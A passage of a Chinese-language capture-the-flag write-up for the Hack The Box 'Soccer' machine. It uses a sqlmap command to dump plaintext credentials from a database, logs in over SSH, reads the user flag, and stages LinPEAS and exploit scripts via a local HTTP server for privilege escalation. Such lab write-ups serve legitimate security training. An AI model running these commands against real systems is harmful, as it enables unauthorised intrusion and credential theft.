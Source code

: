 ```bash
sqlmap -u "http://localhost:8081/?id=52655" --random-agent --dbms mysql --dbs --threads 10 -p id -D soccer_db -T accounts -C username,password --dump
```

```bash
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

還好password沒有hash，拿去連ssh ，用 `tee` 紀錄 CLI history

```bash
┌──(root㉿kali)-[~]
└─# ssh player@soccer.htb | tee -a ssh_history.log                                                                                                         
Last login: Tue Dec 13 07:29:10 2022 from 10.10.14.19
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
player@soccer:~$ ls
user.txt
player@soccer:~$ cat user.txt 
e5c404bc10aeeef1c83cf0713d00cf41
```

> 拿到USER Flag - `e5c404bc10aeeef1c83cf0713d00cf41`


# Root Flag

要escalate到root，先測看看`sudo -l`，結果不能用

```bash
player@soccer:/tmp$ sudo -l -l
[sudo] password for player: 
Sorry, user player may not run sudo on localhost.
```

先用 [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 掃一下

在本機架個http server來送檔案到靶機

```bash
┌──(root㉿kali)-[~/files]
└─# ls
281  50135  linpeas.sh  lse.sh  poc.sh

┌──(root㉿kali)-[~/files]
└─# screen python3 -m http.server 80
[CTRL+A+D]
```
